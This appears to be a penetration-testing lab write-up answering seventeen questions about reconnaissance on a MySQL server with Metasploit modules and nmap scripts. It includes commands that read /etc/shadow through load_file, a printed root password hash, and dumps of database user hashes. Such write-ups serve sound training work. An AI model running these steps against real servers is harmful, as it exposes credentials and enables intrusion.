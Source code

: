 # MySQL Recon: Basics

1. What is the version of MySQL server?

**Note**: Port 3306 is the one commonly used by MySQL server.

The current version of MySQL is 5.5.62-0ubuntu0.14.04.1.

2. What command is used to connect to remote MySQL database?

The proper command is `mysql -h x.x.x.x -u root`.

3. How many databases are present on the database server?

This can be achieved with the command `show databases;` in the mysql command line.
There are 11 databases.

4. How many records are present in table “authors”? This table is present inside the “books” database.

There are 10 records in the authors table.

5. Dump the schema of all databases from the server using suitable metasploit module?

In this case we use the auxiliary module `scanner/mysql/mysql_schemadump`.

- DBName: books
  Tables:
  - TableName: authors
    Columns:
    - ColumnName: id
      ColumnType: int(11)
    - ColumnName: first_name
      ColumnType: varchar(50)
    - ColumnName: last_name
      ColumnType: varchar(50)
    - ColumnName: email
      ColumnType: varchar(100)
    - ColumnName: birthdate
      ColumnType: date
    - ColumnName: added
      ColumnType: timestamp
- DBName: data
  Tables: []
- DBName: password
  Tables: []
- DBName: secret
  Tables: []
- DBName: store
  Tables: []
- DBName: upload
  Tables: []
- DBName: vendors
  Tables: []
- DBName: videos
  Tables: []

6. How many directories present in the /usr/share/metasploit-framework/data/wordlists/directory.txt, are writable? List the names.

In msfconsole we will use the auxiliary module `scanner/mysql/mysql_writable_dirs`.

**Note**: When using this module, remember to set the dir_list and rhosts.
**Note**: If you want metasploit to set up a global variable, use `setg` instead if `set`.
**Note**: msfconsole can use the `advanced` command to show advanced options for the selected module.

Only two directories are writable in that machine using sql: /root and /tmp.

**Note**: Through the database we can know what directories are writable in that machine.

7. How many of sensitive files present in /usr/share/metasploit-framework/data/wordlists/sensitive_files.txt are readable? List the names.

There are ten sensitive files readable from the database:

[+] 192.49.213.3:3306     - /etc/passwd is a file and exists
[+] 192.49.213.3:3306     - /etc/shadow is a file and exists
[+] 192.49.213.3:3306     - /etc/group is a file and exists
[+] 192.49.213.3:3306     - /etc/mysql/my.cnf is a file and exists
[+] 192.49.213.3:3306     - /etc/hosts is a file and exists
[+] 192.49.213.3:3306     - /etc/hosts.allow is a file and exists
[+] 192.49.213.3:3306     - /etc/hosts.deny is a file and exists
[+] 192.49.213.3:3306     - /etc/issue is a file and exists
[+] 192.49.213.3:3306     - /etc/fstab is a file and exists
[+] 192.49.213.3:3306     - /proc/version is a file and exists

8. Find the system password hash for user "root".

We can actually load files from the mysql server. It is pretty interesting to get information we cannot usually get any other way like this in the mysql server: `select load_file("/path/to/file")`. A common file is for example the /etc/shadow file or the keys for ssh. 

Full record: `root:$6$eoOI5IAu$S1eBFuRRxwD7qEcUIjHxV7Rkj9OXaIGbIOiHsjPZF2uGmGBjRQ3rrQY3/6M.fWHRBHRntsKhgqnClY2.KC.vA/:17861:0:99999:7:::`.

Hash: `S1eBFuRRxwD7qEcUIjHxV7Rkj9OXaIGbIOiHsjPZF2uGmGBjRQ3rrQY3/6M.fWHRBHRntsKhgqnClY2.KC.vA/`.

9. How many database users are present on the database server? Lists their names and password hashes.

In msfconsole we will use the auxiliary module `scanner/mysql/mysql_hashdump`.

**Note**: Even when the string value for an option in a metasploit module is empty, it doesn't mean it is a null string. If you want it to be a null string, set it.

response:

[+] 192.49.213.3:3306     - Saving HashString as Loot: debian-sys-maint:*CDDA79A15EF590ED57BB5933ECD27364809EE90D
[+] 192.49.213.3:3306     - Saving HashString as Loot: filetest:*81F5E21E35407D884A6CD4A731AEBFB6AF209E1B
[+] 192.49.213.3:3306     - Saving HashString as Loot: ultra:*827EC562775DC9CE458689D36687DCED320F34B0
[+] 192.49.213.3:3306     - Saving HashString as Loot: guest:*17FD2DDCC01E0E66405FB1BA16F033188D18F646
[+] 192.49.213.3:3306     - Saving HashString as Loot: sigver:*027ADC92DD1A83351C64ABCD8BD4BA16EEDA0AB0
[+] 192.49.213.3:3306     - Saving HashString as Loot: udadmin:*E6DEAD2645D88071D28F004A209691AC60A72AC9
[+] 192.49.213.3:3306     - Saving HashString as Loot: sysadmin:*46CFC7938B60837F46B610A2D10C248874555C14

10. Check whether anonymous login is allowed on MySQL Server.

This can be sort of done using the nmap script `mysql-empty-password`. In this case only root has empty password.

11. Check whether “InteractiveClient” capability is supported on the MySQL server.

This can be achieved using the nmap script `mysql-info`. InteractiveClient capability is supported.

12. Enumerate the users present on MySQL database server using mysql-users nmap script.

Not only using mysql-users but also passing mysql-args: mysqluser and mysqlpass.

enumeration:

| mysql-users: 
|   filetest
|   root
|   debian-sys-maint
|   guest
|   sigver
|   sysadmin
|   udadmin
|_  ultra

13. List all databases stored on the MySQL Server using nmap script.

This can be achieved with the `mysql-databases` nmap script. Passing mysqluser and mysqlpass as script-args as well.

| mysql-databases: 
|   information_schema
|   books
|   data
|   mysql
|   password
|   performance_schema
|   secret
|   store
|   upload
|   vendors
|_  videos

14. Find the data directory used by mysql server using nmap script.

The data directory can be found using the mysql-variables nmap script. This data directory practically stores the whole database, so it is pretty important. Data directory: `/var/lib/mysql/`.

**Note**: Knowing how to interact with the mysql variables is really useful.

15. Check whether File Privileges can be granted to non admin users using `mysql-audit` nmap script.

This is an example of the nmap command to run the `mysql-audit` script: `nmap 192.49.213.3 -p 3306 --script mysql-audit --script-args="mysql-audit.username='root',mysql-audit.password='',mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'"`.

Based on the results, it does not grant privileges to non admin users.

Results of the audit:

| mysql-audit: 
|   CIS MySQL Benchmarks v1.0.2
|       3.1: Skip symbolic links => FAIL
|       3.2: Logs not on system partition => PASS
|       3.2: Logs not on database partition => PASS
|       4.1: Supported version of MySQL => REVIEW
|         Version: 5.5.62-0ubuntu0.14.04.1
|       4.4: Remove test database => PASS
|       4.5: Change admin account name => PASS
|       4.7: Verify Secure Password Hashes => PASS
|       4.9: Wildcards in user hostname => PASS
|         The following users were found with wildcards in hostname
|           filetest
|           root
|       4.10: No blank passwords => PASS
|         The following users were found having blank/empty passwords
|           root
|       4.11: Anonymous account => PASS
|       5.1: Access to mysql database => REVIEW
|         Verify the following users that have access to the MySQL database
|           user  host
|       5.2: Do not grant FILE privileges to non Admin users => PASS
|         The following users were found having the FILE privilege
|           filetest
|       5.3: Do not grant PROCESS privileges to non Admin users => PASS
|       5.4: Do not grant SUPER privileges to non Admin users => PASS
|       5.5: Do not grant SHUTDOWN privileges to non Admin users => PASS
|       5.6: Do not grant CREATE USER privileges to non Admin users => PASS
|       5.7: Do not grant RELOAD privileges to non Admin users => PASS
|       5.8: Do not grant GRANT privileges to non Admin users => PASS
|       6.2: Disable Load data local => FAIL
|       6.3: Disable old password hashing => FAIL
|       6.4: Safe show database => FAIL
|       6.5: Secure auth => FAIL
|       6.6: Grant tables => FAIL
|       6.7: Skip merge => FAIL
|       6.8: Skip networking => FAIL
|       6.9: Safe user create => FAIL
|       6.10: Skip symbolic links => FAIL
|     
|     Additional information
|       The audit was performed using the db-account: root
|_      The following admin accounts were excluded from the audit: root,debian-sys-maint

16. Dump all user hashes using  nmap script.

In this case we use the script `mysql-dump-hashes` with script-args username and password.

| mysql-dump-hashes: 
|   debian-sys-maint:*CDDA79A15EF590ED57BB5933ECD27364809EE90D
|   filetest:*81F5E21E35407D884A6CD4A731AEBFB6AF209E1B
|   ultra:*827EC562775DC9CE458689D36687DCED320F34B0
|   guest:*17FD2DDCC01E0E66405FB1BA16F033188D18F646
|   sigver:*027ADC92DD1A83351C64ABCD8BD4BA16EEDA0AB0
|   udadmin:*E6DEAD2645D88071D28F004A209691AC60A72AC9
|_  sysadmin:*46CFC7938B60837F46B610A2D10C248874555C14

17. Find the number of records stored in table “authors” in database “books” stored on MySQL Server using mysql-query nmap script.

In this case we need to use the nmap script `mysql-query` with script-args username, password and query.

answer:

| mysql-query: 
|   count(*)
|   10
|   
|   Query: select count(*) from books.authors
|_  User: root
